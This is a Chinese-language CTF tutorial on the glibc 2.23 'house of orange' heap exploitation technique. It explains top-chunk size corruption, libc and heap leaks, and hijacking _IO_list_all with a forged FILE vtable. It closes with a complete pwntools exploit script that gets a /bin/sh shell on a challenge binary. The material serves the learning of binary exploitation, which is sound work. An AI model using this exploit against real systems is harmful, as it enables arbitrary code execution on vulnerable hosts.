






# glibc2.23——house of orange-先知社区

> **来源**: https://xz.aliyun.com/news/17339  
> **文章ID**: 17339

---

## **glibc2.23——house of orange**

什么是house of orange，这个名字的由来是2016年一道题目，它里面的内容跟orange有关，因此这个手法也就相应而出现，其实house of orange 有**两个阶段**

### **第一阶段**

有的时候程序限制了你申请堆块的限制（导致不能申请到unsortbin），或者直接不给你free功能，那么泄露libc地址就成了一个麻烦，但是house of orange 就可以解决这个问题，如果我们能控制到top chunk的size位，那么我们就可以把它修改掉，这样top chunk 变小了，那么下次我们再申请一个比它大的堆块的时候，**就有两种情况**，第一种就是把当前top chunk 加入unsortbin，第二种情况就是直接使用mmap来申请一块内存了，当然我们想要第一种情况，那么就要注意申请堆块的大小

**1、(unsigned long) (old\_size) >= MINSIZE**

**2、 prev\_inuse (old\_top) = 1**

**3、 ((unsigned long) old\_end & (pagesize - 1)) == 0)**

而且修改的时候还要注意页对齐，比如原来是0x2fe1，那么就可以改成0xfe1

那么就可以通过上面的操作得到unsortbin，然后进行切片就可以得到libc的地址，但是在2.23以前要实现house of orange还需要知道heap的地址，因为我们要精准的伪造虚函数表（vtable）那么就要得到它的准确位置，因为2.23以前对它的检查没有那么严格，所以我们可以直接把它放到fake\_chunk里面，那么怎么得到堆地址呢，如果我们可以申请到largebin范围大小的堆块，那么就可以利用largebin的fd\_nextsize来泄露堆地址，当然如果不给我们largebin范围大小的堆块，如果题目没有开pie，或者已经知道程序基地址的情况下，若堆块的指针保存在bss段上，那么可以通过unsortbin attack 来泄露堆地址。

到目前位置准备工作已经做完了，那么让我们进入下一阶段。

### **第二阶段**

下面介绍一下\*\*\_IO\_overflow\*\*，这个函数会把fd也就是文件指针当作第一个参数，然后进行调用，而\*\*\_IO\_overflow\*\*这个函数在vtable的第4个位置，那么就可以把这个位置放上system，然后fd位放上/bin/sh，这个函数怎么来的？

当glibc检测到内存出错的时候会执行

**malloc\_printerr -> \_\_libc\_message -> \_\_GI\_abort -> \_IO\_flush\_all\_lockp -> \_IO\_OVERFLOW**

因此核心思想就是劫持\*\*\_IO\_list\_all\*\*，这个东西是 `_IO_FILE_plus_`结构体的指针，一般指向 `_IO_2_1_stderr_`



而vtable，也就是\_IO\_jump\_t，而`_IO_file_plus` 是一个结构体，它继承自 `_IO_FILE` 结构体，并且包含了一个 `_IO_jump_t` 类型的指针（即虚函数表）。



那么现在就可以开始劫持了，但是在此之前还需要了解一下\_IO\_list\_all



可以看见vtable在结构体的末尾，指向\_IO\_file\_jumps我们伪造的就是它，具体偏移可以数一下**64位下在0xd8的位置**，**而chain字段在0x68的位置**，那么改怎么控制呢，我们知道unsortbin的chunk指向main\_arena+88的位置，那么它加0x68的位置就是main\_arean+0xc0的位置，那么这个位置就是smallbin第6条链表的位置，如果我们把unsortbin的bk字段改成 \_IO\_list\_all -0x10的位置，那么由于unsortbin attack我们可以知道，此时 \_IO\_list\_all的指针也指向main\_arena+88的位置，但是这个位置我们不可控，那么就要寻找一下可以控制的地方，那么如果把unsortbin的size位改成0x61呢，那么下次申请堆块的时候如果不满足条件就会加入到smallbin的第六条链子中，前面提到了，此时chain字段偏移位main\_arena+ 88 +0x68此时正好是我们修改之后堆块的头部，那么我们就可以在此处伪造vtable

不过还需要绕过一个fflush函数的检查，也就是如果缓冲区有东西的话才会刷新，也就是保证\_IO\_write\_ptr 这个大小要大于 \_IO\_write\_base，即可。

### **例题演示**

题目保护情况


64位ida载入



那么可以看见是没有free函数的，那么可以考虑使用house of orange来获取libc地址



而且满足我们申请大堆块的要求，而且没有开pie



而且edit函数可以进行溢出

### **分析**

那么思路很清晰，通过house of orange 来泄露libc，然后通过unsortbin attack来泄露heap地址，之后通过溢出来劫持IO流，通过malloc错误来获取shell

```
from pwn import *
context(log_level='debug',arch='amd64',os='linux')

io = process('./jingdian')
#io = remote('110.40.35.73',33807)
libc = ELF('./libc6_2.23-0ubuntu11.3_amd64.so')
def add(size,payload):
   io.recvuntil(">")
   io.sendline(b'1')
   io.recvuntil("Size :")
   io.sendline(str(size))
   io.recvuntil("Content :")
   io.send(payload)


def edit(index,size,payload):
   io.recvuntil(">")
   io.sendline(b'2')
   io.recvuntil("Index :")
   io.sendline(str(index))
   io.recvuntil("Size :")
   io.sendline(str(size))
   io.recvuntil("Content :")
   io.send(payload)


def show(index):
  io.recvuntil(">")
  io.sendline(b'3')
  io.recvuntil("Index :")
  io.sendline(str(index))


add(0x10,b'aaaa')#0
payload = cyclic(0x18)+p64(0xfe1)
gdb.attach(io)
edit(0,len(payload),payload)
add(0x1000,b'aaaa')#1
add(0x10,b'1')#2
#gdb.attach(io)
show(2)
io.recvuntil('
')
libc_addr = u64(io.recv(6).ljust(8,b'\x00'))-0x5b9- 0x68 - libc.sym['__malloc_hook']
#libc_addr = u64(io.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-0x3c5131
success("libc_addr :"+hex(libc_addr))
# unsorted bin attack 
pause()
payload = cyclic(0x18)+p64(0xfa1)+p64(0)+p64(0x4040E0+0x50) 
edit(2,len(payload),payload)
add(0xf90,b'aaaa')#3
show(12)
io.recv()
heap_addr = u64(io.recv(8))-0x22010
success("heap_addr :"+hex(heap_addr))
pause()
#还原unsortbin的fd，bk指针，方便下一步进行伪造
payload = p64(heap_addr+0x22010)+p64(heap_addr+0x40)*3
edit(12,len(payload),payload)
payload = cyclic(0x18)+p64(0xfa1)+p64(libc_addr+0x3c4b78)*2 #这个就是main_arena + 88处地址
edit(2,len(payload),payload)
IO_list_all = libc_addr + libc.sym['_IO_list_all']
system_addr = libc_addr + libc.sym['system']
payload = cyclic(0x10) #


fake_file = b'/bin/sh\x00'+p64(0x61) #
fake_file += p64(0)+p64(IO_list_all-0x10) #
fake_file += p64(0)+p64(1) # 满足_IO_write_ptr > _IO_write_base
fake_file = fake_file.ljust(0xc0,b'\x00') #
payload += fake_file + p64(0)*3+p64(heap_addr+0x118)+p64(0)*2+p64(system_addr) #伪造vtable位置


edit(2,len(payload),payload)
io.recvuntil(">")
gdb.attach(io)
io.sendline(b'1')
io.recvuntil("Size :")
io.sendline('32')


io.interactive()
```
